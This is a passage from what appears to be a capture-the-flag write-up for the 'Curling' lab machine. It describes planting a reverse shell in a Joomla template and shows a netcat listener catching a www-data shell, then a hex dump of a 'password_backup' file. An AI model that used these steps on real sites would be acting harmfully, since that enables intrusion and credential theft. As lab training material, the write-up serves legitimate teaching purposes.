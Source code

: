 We need to find the `index template` and modify the php code to inject a `reverse shell` on the page : http://10.10.10.150/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D

![alt text](Writeup/Curling/Images/reverse-shell.png)

```bash
$ nc -lvnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.150.
Ncat: Connection from 10.10.10.150:54530.
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 12:08:53 up 42 min,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Shell

We find a `password backup` in `hex`.

```bash
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
```